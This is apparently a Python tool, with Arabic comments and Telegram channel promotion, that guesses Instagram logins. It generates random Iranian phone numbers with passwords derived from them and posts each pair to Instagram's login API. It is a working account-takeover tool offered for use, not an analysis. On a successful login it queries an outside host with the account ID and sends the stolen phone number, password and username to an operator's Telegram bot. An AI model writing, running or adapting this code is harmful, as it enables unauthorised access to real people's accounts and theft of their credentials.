import webbrowser
BRed="\033[1;31m" # Red
BGreen="\033[1;32m" # Green
BYellow="\033[1;33m" # Yellow
BBlue="\033[1;34m" # Blue
BPurple="\033[1;35m" # Purple
BCyan="\033[1;36m" # Cyan
BWhite="\033[1;37m" # White
Z = '\033[1;31m' #احمر
A = '\033[1;33m' #اصفر
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[3;32m' #اخضر
X = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
S = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح
'\033[1;34m'
'\033[1;34m'
# = = = = = = = = = = = =

try:
    import os
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
except ImportError:
    os.system('pip install time')
    os.system('pip install webbrowser ')
    os.system('pip install random')
    os.system('pip install requests')
    os.system('pip install user_agent')
    os.system('pip install json')
    os.system('pip install secrets')
    os.system('pip install sys')
    os.system('clear')
    from time import sleep
    import time, webbrowser, random, requests
    from uuid import uuid4
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
else:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
    os.system('clear')
    aa = 0
    zz = 0
   


    def a(z):
        for e in z:
            sys.stdout.write(e)
            sys.stdout.flush()
            sleep(0.1)
            
logo =''''
'''+BWhite+''' '''+BBlue+'''   '''+BWhite+'''               
'''+BWhite+''' '''+BBlue+''''''+BWhite+''
print(F + ' لوفي @zovov ')
print(Z+'@zovov - الـقـنـاة  ')


print(Z1+''*50)
ID = input("	"+BWhite+" "+BGreen+"  ايـدي :  ") 
tok = input("	"+BWhite+" "+BGreen+"  تـوكـن :  ") 
import webbrowser
webbrowser.open('https://t.me/ustx09')

def code_joo(userQ, password):
        cookie = secrets.token_hex(8) * 2
        head = {'HOST':'www.instagram.com', 
         'KeepAlive':'True', 
         'user-agent':'Mozilla/5.0 (X11; Linux i686 on x86_64; rv:48.0) Gecko/20100101 Firefox/48.0', 
         'Cookie':cookie, 
         'Accept':'*/*', 
         'ContentType':'application/x-www-form-urlencoded', 
         'X-Requested-With':'XMLHttpRequest', 
         'X-IG-App-ID':'936619743392459', 
         'X-Instagram-AJAX':'missing', 
         'X-CSRFToken':'missing', 
         'Accept-Language':'en-US,en;q=0.9'}
        url_id = f"https://www.instagram.com/{userQ}/?__a=1"
        req_id = requests.get(url_id, headers=head).json()
        name = str(req_id['graphql']['user']['full_name'])
        id = str(req_id['graphql']['user']['id'])
        followes = str(req_id['graphql']['user']['edge_followed_by']['count'])
        following = str(req_id['graphql']['user']['edge_follow']['count'])
        re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")
        ree = re.json()
        dat = ree['data']

        GHOST = f" 👩‍💻➥ • Instagram Account ✓  ────────────  \n ➥• Email : {username}\n ➥• Pass : {password}\n ➥• user : {userQ}\n ➥• ➥• Following :  {followes}\n ➥• Data : {dat}\n  ──────────── \n "
        
        tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=\n {GHOST} \n"
        i = requests.post(tlg)


url = 'https://i.instagram.com/api/v1/accounts/login/'
headers = {'User-Agent':'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*',  'Cookie':'missing',  'Accept-Encoding':'gzip, deflate', 
             'Accept-Language':'en-US', 
             'X-IG-Capabilities':'3brTvw==', 
             'X-IG-Connection-Type':'WIFI', 
             'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
             'Host':'i.instagram.com'}
sleep(1)
sleep(0.1)
user = '0987654321'
while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+98915' + us
        password = '0915' + us
        from uuid import uuid4
        uid = str(uuid4())
        data = {'uuid':uid, 
         'password':password, 
         'username':username,
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req = requests.post(url, headers=headers, data=data)
        if 'logged_in_user' in req.json():
            zz += 1
            userQ = req.json()['logged_in_user']['username']
            code_joo(userQ, password)
        elif '"message":"challenge_required","challenge"' in req.json():
            os.system('cls' if os.name == 'nt' else 'clear')
            print(Z1+f"\r                 \n [=] Hit : {zz} \n [=] Bad : {aa} \n [=] Scure :  \n [=] Block : \n [=] User : {username} \n [=] Pass : {password} ",end='')
        else:
            os.system('cls' if os.name == 'nt' else 'clear')
            print (Z1+" ──────────── ")
            print (X+"  جـاري الـصـيـد 👻 ")
            print (X+" @zovov قناتي ")
            print (Z1+" ──────────── ")
            print(C+f"\r \n {F}[=] Hit : {zz} \n {Z1}[=] Bad : {aa} {S}\n{A} [=] Scure :  \n {X}[=] Block : \n {C}[=] User : {username} \n{Z} [=] Pass : {password} ",end='')
            aa += 1
